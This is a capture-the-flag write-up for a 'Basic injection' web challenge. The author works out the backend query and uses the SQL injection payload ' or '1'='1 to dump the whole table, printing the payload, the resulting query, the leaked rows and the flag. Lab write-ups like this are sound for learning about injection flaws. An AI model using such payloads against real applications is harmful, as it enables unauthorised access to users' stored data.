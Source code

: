 ## Solution

The first thing I did, it's a thing that I use to do in every CTF that contains a website.
I reviewed all page source and scripts and found nothing. 

After the unsucsessfull atempt i thought:

In this challenge you are asked *to leak whole database*.
With this clue and the challnge title *Basic injection* you can supose that
this challenge will be working arround SQL INJECTION.

I haven't worked before with SQL INJECTION but I had a few ideas.

First of all I tried the following query:

```
" or true 
```
Which gave unsucsessfull results as I did'nt know what i was doing.

Afet writting on a paper whats happening i reached that the following query that is happening is:

```
SELECT * FROM data WHERE username='(our input)'
```
So i wrote the input ' or '1'='1 which produces the following hypotetic query:

```
SELECT * FROM data WHERE username='' or '1'='1' 
```
Which evaluates always to true. So we get all the database!
```
Name: Luke
Data: I made this problem.
Name: Alec
Data: Steam boys.
Name: Jalen
Data: Pump that iron fool.
Name: Eric
Data: I make cars.
Name: Sam
Data: Thinks he knows SQL.
Name: fl4g__giv3r
Data: th4t_is_why_you_n33d_to_sanitiz3_inputs
Name: snoutpop
Data: jowls
Name: Chunbucket
Data: @datboiiii 
```

From where we get that the flag is:
*th4t\_is\_why\_you\_n33d\_to\_sanitiz3\_inputs*
